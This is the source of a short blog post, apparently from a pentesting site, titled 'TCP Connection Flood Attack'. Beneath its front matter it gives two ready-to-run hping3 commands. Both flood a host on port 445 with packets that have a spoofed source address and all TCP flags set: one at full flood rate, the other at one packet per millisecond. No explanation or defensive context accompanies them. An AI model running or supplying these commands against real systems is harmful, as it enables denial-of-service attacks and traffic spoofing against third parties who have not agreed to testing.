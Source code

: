 ```yaml
---
layout: post
title: TCP Connection Flood Attack
categories: [Pentesting]
tags: [Kali, Linux]
description: TCP FLOOD
fullview: true
comments: true
---
```


{% highlight yaml %}
$hping3 -q -n -a 10.0.0.1 -SARFU -p 445 --flood 192.168.xx.xx
$hping3 -q -n -a 10.0.0.1 -SARFU -p 445 -i u1000 192.168.xx.xx
{% endhighlight %}
